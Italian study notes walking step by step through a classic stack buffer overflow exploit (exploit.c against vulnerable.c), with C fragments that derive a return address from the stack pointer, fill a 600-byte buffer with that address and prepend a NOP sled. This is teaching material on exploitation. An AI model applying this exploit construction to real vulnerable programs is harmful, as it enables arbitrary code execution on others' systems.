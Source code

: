 3. **Quando invoco la funzione `sp()` questa mi ritorna l'indirizzo alla testa dello stack**

```c
	offset = atoi(argv[1]);  /* get the offset they specified */
	esp    = sp();           /* get the stack pointer */
	ret    = esp-offset;     /* sp - offset = return address */
```

`long esp=sp()` : il valore di ritorno della funzione sp(), cioè il valore che punta alla testa dello stack di questo programma.

`ret` : sarà l'indirizzo di ritorno che userò per sovvrascrivere l'IP del programma vulnerabile.

**`ret = esp-offset`: perché questo valore?**
### IMPORTANTE
- `exploit.c` manda in esecuzione `vulnerable.c`. **Supponiamo che SO mappi su area di memoria contigua i segmenti di processi che vengono mandati in esecuzione in modo consecutivo.**
	- **allora posso** calcolare un indirizzo che è valido per lo stack del `programma vulnerabile` *partendo*** da un indirizzo che è valido per lo stack di `exploit` e spostandomi un pochino. 
		- di quanto mi scosto? BOH

![[Recording 20250518210029.m4a]]


**`ret`** è il valore che sostituisce il `eip`. RET dice "salta questo indirizzo,quello della shellcode".


4. **Allochiamo il buffer di 600 caratteri**
```c
	/* allocate memory for our buffer */
	if(!(buffer = malloc(BUFFERSIZE))) {
		printf("Couldn't allocate memory.\n");
		exit(-1);
	}
```


5. **Riempiamo il buffer saltando di 4 byte alla volta, copiando l'indirizzo di ritorno che ci siamo calcolati**
```c
/* fill buffer with ret addr's */
	ptr = buffer;
	addr_ptr = (long *)ptr;//tratta il buffer come 600/4 puntatori
	for(i=0; i<BUFFERSIZE; i+=4)
		*(addr_ptr++) = ret;
	
```

*tratta il buffer come 600/4 puntatori* per semplicità presumiamo che sia tutto a 32bit, quindi 4 byte, e copia all'interno del **buffer** gli indirizzi ret.

- il mio buffer di 600 byte, sarà riempito con 600/4 indirizzi di ritorno.

6. **Faccio un'altra passata sulla prima metà del buffer**
```c
	/* fill first half of buffer with NOPs */
	for(i=0; i<BUFFERSIZE/2; i++)
		buffer[i] = '\x90';
```
Riempio la prima metà del buffer con `\x90` : `0x90` la riempio di `nop`.
- Se il mio IP punta ad un'istruzione che è una NOP, non fa niente e semplicemente *incrementa l'IP di 1*.
- **quindi il mio buffer fino alla prima metà è pieno di `nop`, dalla seconda metà è pieno di indirizzi di ritorno**
